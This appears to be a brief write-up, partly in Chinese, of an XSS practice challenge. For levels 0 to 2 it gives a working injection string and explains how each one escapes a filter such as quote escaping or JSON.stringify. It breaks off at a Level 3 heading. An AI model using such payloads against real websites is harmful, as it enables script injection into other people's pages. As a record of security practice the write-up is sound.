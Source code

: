 # Level 0-Warmup
");alert(1)//

# Level 1-Adobe
這關將 " replace為 \"，因此要試著繞過。
%22)alert(1)//

# Level 2-Json
這題使用了Json.stringify，可看一下運作的方式。
可以直接關閉script來開啟另一個alert
</script><script>alert(1)//

#Level 3-JavaScript
